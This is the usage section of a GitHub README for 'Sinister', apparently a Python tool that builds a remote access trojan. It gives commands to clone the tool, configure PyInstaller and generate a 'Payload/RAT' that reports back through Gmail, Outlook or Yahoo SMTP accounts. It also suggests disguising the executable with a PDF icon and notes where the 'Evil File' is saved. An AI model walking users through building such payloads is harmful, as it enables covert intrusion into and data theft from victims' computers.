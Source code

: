 ```bash
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/PushpenderIndia/Sinister.git

# Go into the repository
$ cd Sinister

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open Sinister.py in Text editor and Configure Line 16 WINDOWS_PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" 

# Getting Help Menu
$ python Sinister.py --help

# Making Payload/RAT
$ python Sinister.py -e youremail@gmail.com -p YourEmailPass -w -o output_file_name --icon icon_path

# Making Payload using GMAIL SMTP Server, Port Configuration (Default SMTP Server = smtp.gmail.com, Default SMTP Port = 587)
$ python Sinister.py -e youremail@gmail.com -p YourEmailPass-w -o output_file_name --icon icon_path

# Making Payload using OUTLOOK SMTP Server, Port Configuration
$ python Sinister.py -e youremail@gmail.com -p YourEmailPass -x smtp-mail.outlook.com -y 587 -w -o output_file_name --icon icon_path

# Making Payload using YAHOO SMTP Server, Port Configuration
$ python Sinister.py -e youremail@gmail.com -p YourEmailPass -x smtp.mail.yahoo.com -y 587 -w -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## How to Update

* Run updater.py to Update Autmatically or Download the latest Zip from this GitHub repo
* Note: Git Must be Installed in order to use updater.py

## Note:- Evil File will be saved inside dist/ folder, inside Sinister/ folder
